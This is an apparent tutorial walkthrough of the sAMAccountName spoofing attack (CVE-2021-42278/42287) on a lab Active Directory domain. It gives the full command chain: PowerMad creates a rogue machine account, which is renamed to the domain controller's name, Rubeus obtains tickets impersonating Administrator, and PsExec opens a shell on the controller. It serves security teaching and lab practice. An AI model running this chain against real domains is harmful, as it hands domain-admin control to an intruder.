








Introduction
This article covers the ninth technique for Domain Privilege Escalation: Sam AccountName Spoofing (also known as CVE-2021-42278 / CVE-2021-42287).
How Does Sam AccountName Spoofing Work?
This technique requires that you have a user account on one of the machines joined to the domain, even if that account has low privileges. The core idea of the attack works as follows:
- We create a fake (rogue) machine account on the domain with any name we choose.
- We then change the
samaccountnameattribute of this fake machine to match the name of the Domain Controller, but without the trailing$sign. Machine accounts in Active Directory normally have a$appended to their name (e.g.,JehadDC$), so by naming our fake machineJehadDC(without the$), we avoid a naming collision. - We request a TGT (Ticket Granting Ticket) for our fake machine while it still carries the Domain Controller's name.
- Immediately after obtaining the TGT, we rename the fake machine back to something else (any other name).
- We then reuse the previously obtained TGT to request a TGS (Ticket Granting Service) for any service running on the Domain Controller, such as CIFS, LDAP, or HTTP.
The reason this works is that when you present a TGT and request a TGS, Kerberos looks up the machine name stored in the TGT. Since we renamed our fake machine, Kerberos cannot find a machine matching that name. At this point, Kerberos automatically appends a $ to the name and searches again. This time it finds the real Domain Controller (e.g., JehadDC$), and issues a TGS for the Domain Controller's services to us. The only difference between our spoofed machine name and the real Domain Controller name was the $ sign, and Kerberos bridged that gap for us.
Walkthrough
Step 1: Load PowerView
We start by logging in as a low-privilege user (in this case, a user named tester). We then load the PowerView module, which provides us with Active Directory enumeration capabilities:
Import-Module .\PowerView.ps1

Step 2: Identify the Domain Controller Name
Before creating a fake machine, we need to know the exact name of the Domain Controller. We use the following command to retrieve it:
Get-DomainController | Select Name
The output shows that the Domain Controller name is JehadDC.
Step 3: Load PowerMad
We need the PowerMad module to create rogue machine accounts on the domain. Load it with:
Import-Module .\powermad.ps1

Step 4: Create a Fake Machine Account
Now we create a fake machine account with a name of our choosing (here, mortal) and set a password for it:
New-MachineAccount -Domain cyber.local -MachineAccount mortal -Password (ConvertTo-SecureString 'Password123' -AsPlainText -Force) -Verbose
This creates a new computer object named mortal in the domain with the password Password123.

Step 5: Clear the serviceprincipalname Attribute
We need to remove any values from the serviceprincipalname attribute of our fake machine. This is necessary to avoid SPN conflicts when we rename the machine to match the Domain Controller:
Set-DomainObject -Identity mortal -SearchBase 'CN=mortal,CN=Computers,DC=cyber,DC=local' -Clear 'serviceprincipalname'

Step 6: Rename the Fake Machine to the Domain Controller Name
Now we change the samaccountname of our fake machine to match the Domain Controller's name, but without the $ suffix. This avoids a duplicate name conflict while setting up the spoofing:
Set-MachineAccountAttribute -MachineAccount "mortal" -Attribute "samaccountname" -Value "JehadDC"
Step 7: Request a TGT for the Spoofed Machine
While our fake machine's samaccountname is set to JehadDC, we request a TGT using Rubeus. The KDC will issue a TGT for JehadDC (our fake machine currently bearing that name):
.\Rubeus.exe asktgt /user:JehadDC /password:Password123 /domain:cyber.local /dc:JehadDC.cyber.local /nowrap
The /nowrap flag outputs the TGT ticket as a single base64 string without line wrapping, making it easier to use in subsequent commands.

Step 8: Rename the Fake Machine Back
Immediately after obtaining the TGT, we rename our fake machine back to its original name (or any other name). This is a critical step -- the TGT we obtained still references JehadDC, but now no machine in the domain has that exact samaccountname (without the $):
Set-MachineAccountAttribute -MachineAccount "mortal" -Attribute "samaccountname" -Value "mortal"

Step 9: Request a TGS for Domain Controller Services
Now we use Rubeus to leverage the S4U2self extension, presenting our previously obtained TGT to request a TGS for a service on the Domain Controller. We impersonate the Administrator account and target the CIFS service (which provides file share access):
.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs/JehadDC.cyber.local /dc:JehadDC.cyber.local /ticket:doIFWjCCBVagAwIBBaEDAgEWooIEczCCBG9hggRrMIIEZ6ADAgEFoQ0bC0NZQkVSLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0GwtjeWJlci5sb2NhbKOCBC0wggQpoAMCARKhAwIBAqKCBBsEggQXONv4VtKGctK6N8y5hTyGbrczP2TOHiaIN9/Js0nGw9J6TkFLuaQJ2QNPIKTXXbo6RQgptGLkc58P2EGIPMxvEBZ7g/PGyVh4+A4BY3zRA0jccvXCHSgxWLygUy0SuKk0aenBwIBIFKQFfYDlE5sYJ/HqSgI7GLhyzlOenyeCfRIVXUI+7coimDHrb7/cn8zhUZ/IY3TCv4rV9toeZWXfNYBmpoYq5QGX12GqWskZeIuGlVRd3CmYZpSGG6vWMbRZCWGJCj3KcdPvXG7lmqxYWuXJVfQJ1kcZXfwMZqKt9JtCoi8HehDpcGwd2u01c7NxFBLYOL3rVazfgEl5S1ZhNggIH0LDCLcqKQM7+IzjQxs/PcHwmIr/UIEwXYClm3TuW4kf0C1vHVJQC1yxvXJ6EzcHw3zL1zvdX/L+L8NQju/yJqfvdYqhbu9CWRanWdfZNOxKuy1UYuvGvp95fwk2DfH4YWaB4IhIM2vYVTgF9kt7Z66bLHnKsYlrllVZteROn6US78QDDWc59q+3MeXh70b7ZTHR2V+x+M4zp5G8YZCkHfZSM469/+MFv34Y1K9WH2SjgbYryQB+pCnvOoU946AGInRyhQ3NV/XmmWEYTwXxfORuVnkAVQS7emayTKR0SJBT3+0jhiGecwXOP9G07FBAnqx4+VyNR0Ypdppl0zIW0a8y7WNjp0Mgpj8CWO2+fb16HQfS+Kk3iLr1YAAniFDxV40eoRNHz98NA4KEFFPVDprI2g4MaAaQl3afSsbCFPywbFGMjxK5XCeWlgnsBFAK1OxCqU5d8YXSqA4s /ptt
/selftriggers the S4U2self mechanism./impersonateuser:Administratorrequests a ticket on behalf of the domain Administrator./altservice:cifs/JehadDC.cyber.localspecifies the target service (CIFS on the Domain Controller)./pttinjects the resulting ticket directly into memory (Pass-the-Ticket).
When Kerberos processes this request, it looks for a machine matching the name in the TGT (JehadDC). Since we renamed our fake machine, there is no match. Kerberos then appends $ to the name, finds the real Domain Controller JehadDC$, and issues a TGS for the Domain Controller's CIFS service, granting us Administrator-level access.

Step 10: Verify the Ticket Was Injected
We confirm the TGS was successfully injected into memory by listing the cached Kerberos tickets:
klist
Step 11: Access the Domain Controller
With the TGS for the CIFS service injected into memory, we can now use Microsoft's PsExec tool to get a remote shell on the Domain Controller:
PsExec.exe \\JehadDC.cyber.local cmd.exe
This gives us command execution on the Domain Controller with Administrator privileges, completing the privilege escalation.
